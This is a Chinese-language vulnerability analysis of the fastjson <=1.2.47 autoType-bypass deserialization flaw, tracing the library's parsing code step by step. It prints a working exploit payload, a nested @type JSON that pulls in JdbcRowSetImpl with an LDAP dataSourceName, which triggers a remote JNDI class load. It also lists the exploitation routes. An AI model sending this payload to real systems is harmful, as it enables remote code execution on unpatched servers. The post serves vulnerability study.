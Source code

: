 ```yaml
---
layout: post
title: "[web] fastjson<=1.2.47漏洞分析"
---
```


#### 0x00 漏洞描述：

fastjson可以通过autotype功能，去反序列化传入的对象，如：{"@type":"classname"}.在1.2.25版本后默认关闭只有内置的一些class可以进行反序列化，如果开启会通过黑白名单进行防护加载恶意类; 该文章分析的漏洞为版本小于1.2.48，无需开启autotype功能即可进行漏洞利用，导致远程代码执行危害巨大。

#### 0x01 漏洞触发点：

代码中直接使用JSON.parse()和JSONObject.parse()解析用户传入的数据就会产生问题，同时还有一些比较不常见的JSON.parseObject()、JSONObject.parseObject、JSONArray.parse()、JSON.parseObject(input, Object.class)等

#### 0x02 漏洞分析：

使用的示例代码：

```
Object obj2 = JSONObject.parseObject("{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/obj\",\"autoCommit\":true}}");
```

由于是嵌套对象，会递归解析：

```java
parseObject:544, DefaultJSONParser (com.alibaba.fastjson.parser)
if (!objParsed) {
  obj = this.parseObject(input, key);	// 此时key为a，开始嵌套解析
}
```

检测到"@type"时，则开始调用checkAutoType尝试进行对应类的加载：

```java
parseObject:303, DefaultJSONParser (com.alibaba.fastjson.parser)
if (key == JSON.DEFAULT_TYPE_KEY
        && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
    String typeName = lexer.scanSymbol(symbolTable, '"');

    if (lexer.isEnabled(Feature.IgnoreAutoType)) {
        continue;
    }

    Class<?> clazz = null;
    if (object != null
            && object.getClass().getName().equals(typeName)) {
        clazz = object.getClass();
    } else {
        clazz = config.checkAutoType(typeName, null, lexer.getFeatures());  // 这里开始尝试针对java.lang.Class进行加载
```

checkAutoType中：通过autoType开关决定是否使用黑白名单过滤、从mapping中获取class、从deserializers中获取对应的class：

```java
if (autoTypeSupport || expectClass != null) {	// 默认关闭，直接跳过
    ...
        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

if (clazz == null) {
    clazz = deserializers.findClass(typeName);  // 从这里获取了java.lang.Class对应的类
}
```

<strong>关键点</strong>: IdentityHashMap中存在java.lang.class，因此可以使用findClass获取到对应的类。

获取对应的类后，再尝试创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz);
...
Object obj = deserializer.deserialze(this, clazz, fieldName); // 调用该对应的反序列化方法
```

在deserialze方法中，解析json字符串中的val值，并加载

```java
deserialze:226, MiscCodec (com.alibaba.fastjson.serializer)
if (lexer.token() == JSONToken.LITERAL_STRING) {
     if (!"val".equals(lexer.stringVal())) {
         throw new JSONException("syntax error");
     }
     lexer.nextToken();
 } else {
     throw new JSONException("syntax error");
 }

 parser.accept(JSONToken.COLON);

 objVal = parser.parse();	// 获取到val对应的值：com.sun.rowset.JdbcRowSetImpl
deserialze:334
if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());		// 加载com.sun.rowset.JdbcRowSetImpl类
        }
```

在loadClass中不仅加载了com.sun.rowset.JdbcRowSetImpl类,同时将该类缓存到了mappings中

```java
loadClass:1226, TypeUtils (com.alibaba.fastjson.util)
if(classLoader != null){
    clazz = classLoader.loadClass(className);
    if (cache) {	// 默认开启
        mappings.put(className, clazz);
    }
    return clazz;
```

<strong>第一阶段完成：执行完成的结果是将本在黑名单中的com.sun.rowset.JdbcRowSetImpl类缓存到了mappings中</strong>

嵌套解析略过，直接跟到checkAutoType中：

```java
# 由于默认关闭了autotype功能，无法使用黑名单直接中断
if (autoTypeSupport || expectClass != null) {
     ...
         if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
             clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
             if (clazz != null) {
                 return clazz;
             }
         }
         if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
             throw new JSONException("autoType is not support. " + typeName);
         }
     }
 }
 if (clazz == null) {
     clazz = TypeUtils.getClassFromMapping(typeName);	// 从mappings获取到了之前缓存的com.sun.rowset.JdbcRowSetImpl类
 }
```

接着创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz); // 该方法最后会初始化sortedFieldDeserializers列表
```

在sortedFieldDeserializers列表中，保存满足条件的字段名和对应的方法名，这里的方法名为getter和setter方法这里不再细跟。

![fastjson]({{ '/images/201907/fastjson_1_1.png' | prepend: site.baseurl }})

接着会调用deserialze方法，初始化类对应的字段值，并调用sortedFieldDeserializers中保存的对应方法：

Ps:由于这里使用classloader的方式动态创建FastjsonASMDeserializer_1_JdbcRowSetImpl，要想获取源码需要在ASMDeserializerFactory中获取对应的class二进制数据

```
createJavaBeanDeserializer:89, ASMDeserializerFactory (com.alibaba.fastjson.parser.deserializer)
ClassWriter cw = new ClassWriter();
cw.visit(49, 33, classNameType, ASMUtils.type(JavaBeanDeserializer.class), (String[])null);
this._init(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));
this._createInstance(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));	// 通过classwriter去生成对应类的class字节码
this._deserialze(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 5));
this._deserialzeArrayMapping(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 4));
byte[] code = cw.toByteArray();		// 这里就会获取对应类的class二进制源码
Class<?> deserClass = this.classLoader.defineClassPublic(classNameFull, code, 0, code.length);	// 使用classLoader.defineClass生成对应的class对象
```

获取后保存成class文件，使用ide打开即可以看到对应的源码：

![fastjson]({{ '/images/201907/fastjson_1_2.png' | prepend: site.baseurl }})

首先调用setDataSourceName，参数为json字符串中解析出来对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_3.png' | prepend: site.baseurl }})

后续通过setValue调用了setAutoCommit，参数同样是从json字符串中解析对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_4.png' | prepend: site.baseurl }})

setAutoCommit: 主要调用connect方法，在该方法中会使用lookup连接传入的DataSourcename：

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }
}

private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());	// 调用了可控的rmi/ldap地址    
```

至此整个漏洞触发的流程就结束了

#### 0x03 漏洞利用：

fastjson有三种利用方式，分别是1.jndi配合rmi ldap、2.bytecodes(本地字节码注入)、3.tomcat ClassLoader 配合bcel。jndi方式需要看当前jdk版本号有没有修复jndi注入漏洞且还需要机器可以通外网，而后两种是本地加载的，也不会因为jdk版本而限制

0x04 总结：

* 针对@type功能的解析流程：使用checkAutoType进行判断是否为可解析的类：黑白名单、mappings缓存、内置IdentityHashMap；获取对应类的ObjectDeserializer保存需要Field和method；调用deserialze初始化对应的Field、调用对应的method
* 分析漏洞加深对漏洞的理解、强化分析漏洞的思维

